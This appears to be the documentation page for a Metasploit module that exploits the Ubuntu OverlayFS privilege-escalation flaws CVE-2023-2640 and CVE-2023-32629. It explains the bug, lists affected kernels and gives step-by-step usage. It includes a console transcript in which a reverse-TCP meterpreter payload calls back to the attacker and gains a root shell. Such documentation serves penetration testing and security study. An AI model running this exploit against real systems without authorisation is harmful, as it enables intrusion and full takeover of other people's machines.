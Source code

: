 ## Description

CVE-2023-2640 and CVE-2023-32629 are vulnerabilities that allow for the arbitrary setting of 
capabilities while overlaying filesystems. On most Linux Kernels during the execution of
 `ovl_do_setxattr` an intermediate function `vfs_setxatrr` converts file capabilities in a
way that limits them to the current namespace. However, on some versions of the Ubuntu kernel
 `_vfs_setxattr_noperm` is called directly without calling `vfs_setxattr`. 

When a new namespace is created the user will technically be "root" within that given 
namespace. This module will take advantage of this by setting the `CAP_SETUID` capability 
on a system binary. It will then perform filesystem overlay, copying the binary into the lower
directory. Because of the flaws described above when the binary is transferred into the upper
directory its capabilities will not be sanitized and persist in the "normal" namespace. 

## Vunerable Application

These vulnerabilities are somewhat unique in that they effect a wide variety of Ubuntu releases
and kernel versions, as described in the list below. 

Ubuntu 23.04 (Lunar Lobster)m kernel 6.2.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.10 (Kinetic Kudu), kernel -> 5.19.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.04 LTS (Jammy Jellyfish), kernel -> 5.19.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.04 LTS (Jammy Jellyfish), kernel -> 6.2.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 20.04 LTS (Focal Fossa), kernel -> 5.4.0, (CVE-2023-32629)

Ubuntu 18.04 LTS (Bionic Beaver), kernel -> 5.4.0, (CVE-2023-32629)

The user can download a vulnerable version, for example:

```
sudo apt update
sudo apt install -y linux-image-5.19.0-41-generic linux-headers-5.19.0-41-generic
reboot
```
While testing, @bwatters7 mentioned taking the system offline as this appears to be patched automatically.
Be sure to take the system offline to prevent the vulnerabilities from silently being patched. 

This module has successfully been tested on the following:

Ubuntu 22.04 LTS (Jammy Jellyfish) 5.19.0-41-generic

Ubuntu 20.04 LTS (Focal Fossa) 5.4.0-1018-aws

## Verification Steps

1). Start `msfconsole`

2). Get a session on a vulnerable system

3). Use `exploit/linux/local/gameoverlay_privesc`

4). Optional: choose target for payload, either linux binary (0) or [li|u]nix command (1) 
`set target 1`

5). Set session `set session [SESSION]`

5). Do. `run`

6). You should get a new session running as root. 

## Options

### Payload File Name
Name of the file storing the payload, default is random.

### Writable Dir
The name of a directory with write permissions, default is `/tmp`. This will be where the 
payload file will be created if necessary. Additionally during the exploit a series of directories will be
created here to perform the filesystem overlaying. 

## Scenarios

You have a non-root session on one of the systems described above. Please note that this 
module will automatically run checks to determine if the system is vulnerable, you can disable 
this with `set AutoCheck False`. 

```
msf6 exploit(linux/local/gameoverlay_privesc) >
[*] Sending stage (3045380 bytes) to 10.5.132.129
[*] Meterpreter session 3 opened (10.5.135.201:4585 -> 10.5.132.129:33504) at 2024-12-18 14:02:15 -0600

msf6 exploit(linux/local/gameoverlay_privesc) > set session 3
session => 3
msf6 exploit(linux/local/gameoverlay_privesc) > show options

Module options (exploit/linux/local/gameoverlay_privesc):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   PayloadFileName  pSueaCXrnzH      yes       Name of payload
   SESSION          3                yes       The session to run this module on
   WritableDir      /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux_Binary



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/gameoverlay_privesc) > run

[*] Started reverse TCP handler on 10.5.135.201:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Ubuntu version: Jammy Jellyfish
[*] Detected kernel version: 5.19.0-41-generic
[+] The target is vulnerable. Jammy Jellyfish with 5.19.0-41-generic kernel is vunerable
[*] Creating directory to store payload: /tmp/ODBpneOXk/
[*] Creating directory /tmp/ODBpneOXk/
[*] /tmp/ODBpneOXk/ created
[*] Creating directory /tmp/ODBpneOXk/
[*] Creating directory /tmp/ODBpneOXk/
[*] /tmp/ODBpneOXk/ created
[*] Creating directory /tmp/ODBpneOXk/bmbtPAX/
[*] Creating directory /tmp/ODBpneOXk/bmbtPAX/
[*] /tmp/ODBpneOXk/bmbtPAX/ created
[*] Creating directory /tmp/ODBpneOXk/JtNbwLXJKw/
[*] Creating directory /tmp/ODBpneOXk/JtNbwLXJKw/
[*] /tmp/ODBpneOXk/JtNbwLXJKw/ created
[*] Creating directory /tmp/ODBpneOXk/hEhbByWL/
[*] Creating directory /tmp/ODBpneOXk/hEhbByWL/
[*] /tmp/ODBpneOXk/hEhbByWL/ created
[*] Creating directory /tmp/ODBpneOXk/yvvSFre/
[*] Creating directory /tmp/ODBpneOXk/yvvSFre/
[*] /tmp/ODBpneOXk/yvvSFre/ created
[*] Writing payload: /tmp/ODBpneOXk/pSueaCXrnzH
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 10.5.132.129
[*] rm: cannot remove '/tmp/ODBpneOXk/yvvSFre/': Device or resource busy
[*] Meterpreter session 4 opened (10.5.135.201:4444 -> 10.5.132.129:44400) at 2024-12-18 14:02:42 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.5.132.129
OS           : Ubuntu 22.04 (Linux 5.19.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
